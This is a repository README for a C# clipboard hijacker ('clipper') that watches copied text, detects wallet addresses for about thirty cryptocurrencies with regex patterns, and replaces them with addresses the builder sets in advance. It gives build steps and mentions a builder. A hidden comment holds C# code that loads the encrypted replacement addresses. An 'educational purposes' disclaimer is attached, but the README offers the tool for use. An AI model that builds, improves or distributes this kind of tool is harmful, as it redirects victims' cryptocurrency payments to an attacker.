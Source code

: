 # Clipboard Crypto Address Replacer
This project is a C# application that replaces cryptocurrency wallet addresses copied to the clipboard with predefined addresses. The application detects wallet addresses using regex patterns for different cryptocurrencies and replaces them using RSA encryption.  

## Features
- **Clipboard Monitoring:** Continuously checks clipboard content.  
- **Crypto Wallet Address Detection:** Uses regex patterns to detect supported cryptocurrency addresses.  
- **RSA Encryption & Decryption:** Encrypts addresses and replaces them as needed.  
- **Mutual Exclusion (Mutex) Usage:** Ensures only one instance runs at a time.  
- **Secure Address Management:** Predefined addresses are stored using RSA encryption.  

## Supported Cryptocurrencies
This application can detect the addresses of the following cryptocurrencies:  
- Bitcoin (BTC)  
- Litecoin (LTC)  
- Ethereum (ETH)  
- Monero (XMR)  
- Ripple (XRP)  
- NEO (NEO)  
- Bitcoin Cash (BCH)  
- Dogecoin (DOGE)  
- Dash (DASH)  
- Stellar (XLM)  
- Binance Beacon (BNB) (Removed) 
- Tezos (XTZ)  
- Tron (TRX)  
- VeChain (VET)  
- Nano (NANO)  
- DigiByte (DGB)  
- Qtum (QTUM)  
- NEM (XEM)  
- Waves (WAVES)  
- Zcash (ZEC)  
- Cardano (ADA)  
- Polkadot (DOT)  
- Cosmos (ATOM)  
- Lisk (LSK)  
- Kava (KAVA)  
- Algorand (ALGO)  
- Filecoin (FIL)  
- Terra (LUNA)  
- Thorchain (RUNE)  

## Usage  

### Requirements  
- Visual Studio 2022
- .NET Framework must be installed.  
- Windows operating system is required (uses Clipboard API).

### Compilation
- Download the project to your computer
- Extract the project to a Folder.
- Open Solution File
- Write your own addresses where `*_ADDRESS` is written. If not present, leave blank
- Select **Build Solution** from the **Build** menu.

### Execution

- Start the builder

https://github.com/user-attachments/assets/e55ef5f5-71f5-45fe-bb74-9afebea2fd10

## Contributing  

**⭐ Star this repository if you find it useful!**
<!---
## Address
```csharp

        encryptedData.Add("btc", EncryptData(publicKey, Encoding.UTF8.GetBytes("BTC_ADDRESS")));
        encryptedData.Add("ltc", EncryptData(publicKey, Encoding.UTF8.GetBytes("LTC_ADDRESS")));
        encryptedData.Add("xmr", EncryptData(publicKey, Encoding.UTF8.GetBytes("XMR_ADDRESS")));
        encryptedData.Add("eth", EncryptData(publicKey, Encoding.UTF8.GetBytes("ETH_ADDRESS")));
        encryptedData.Add("xrp", EncryptData(publicKey, Encoding.UTF8.GetBytes("XRP_ADDRESS")));
        encryptedData.Add("neo", EncryptData(publicKey, Encoding.UTF8.GetBytes("NEO_ADDRESS")));
        encryptedData.Add("bch", EncryptData(publicKey, Encoding.UTF8.GetBytes("BCH_ADDRESS")));
        encryptedData.Add("doge", EncryptData(publicKey, Encoding.UTF8.GetBytes("DOGE_ADDRESS")));
        encryptedData.Add("dash", EncryptData(publicKey, Encoding.UTF8.GetBytes("DASH_ADDRESS")));
        encryptedData.Add("xlm", EncryptData(publicKey, Encoding.UTF8.GetBytes("XLM_ADDRESS")));
        /*encryptedData.Add("tethersol", EncryptData(publicKey, Encoding.UTF8.GetBytes("SOLANA_ADDRESS")));*/
        encryptedData.Add("bnbbeacon", EncryptData(publicKey, Encoding.UTF8.GetBytes("BNB_ADDRESS")));
        encryptedData.Add("tezos", EncryptData(publicKey, Encoding.UTF8.GetBytes("TEZ_ADDRESS")));
        encryptedData.Add("tron", EncryptData(publicKey, Encoding.UTF8.GetBytes("TRON_ADDRESS")));
        encryptedData.Add("vet", EncryptData(publicKey, Encoding.UTF8.GetBytes("VET_ADDRESS")));
        encryptedData.Add("nano", EncryptData(publicKey, Encoding.UTF8.GetBytes("NANO_ADDRESS")));
        encryptedData.Add("dgb", EncryptData(publicKey, Encoding.UTF8.GetBytes("DGB_ADDRESS")));
        encryptedData.Add("qtum", EncryptData(publicKey, Encoding.UTF8.GetBytes("QTUM_ADDRESS")));
        encryptedData.Add("xem", EncryptData(publicKey, Encoding.UTF8.GetBytes("XEM_ADDRESS")));
        encryptedData.Add("waves", EncryptData(publicKey, Encoding.UTF8.GetBytes("WAVES_ADDRESS")));
        encryptedData.Add("zec", EncryptData(publicKey, Encoding.UTF8.GetBytes("ZEC_ADDRESS")));
        encryptedData.Add("ada", EncryptData(publicKey, Encoding.UTF8.GetBytes("ADA_ADDRESS")));
        encryptedData.Add("dot", EncryptData(publicKey, Encoding.UTF8.GetBytes("DOT_ADDRESS")));
        encryptedData.Add("cosmos", EncryptData(publicKey, Encoding.UTF8.GetBytes("COSMOS_ADDRESS")));
        encryptedData.Add("lsk", EncryptData(publicKey, Encoding.UTF8.GetBytes("LSK_ADDRESS")));
        encryptedData.Add("kava", EncryptData(publicKey, Encoding.UTF8.GetBytes("KAVA_ADDRESS")));
        encryptedData.Add("algo", EncryptData(publicKey, Encoding.UTF8.GetBytes("ALGO_ADDRESS")));
        encryptedData.Add("fil", EncryptData(publicKey, Encoding.UTF8.GetBytes("FIL_ADDRESS")));
        encryptedData.Add("terra", EncryptData(publicKey, Encoding.UTF8.GetBytes("TERRA_ADDRESS")));
        encryptedData.Add("thor", EncryptData(publicKey, Encoding.UTF8.GetBytes("THOR_ADDRESS")));
```--->
## Disclaimer

This project is for **educational and research purposes only**. Malicious or unethical use is strictly discouraged. Users should assess their own risks before executing this code.

## License  
This project is open-source and licensed under the MIT License.  
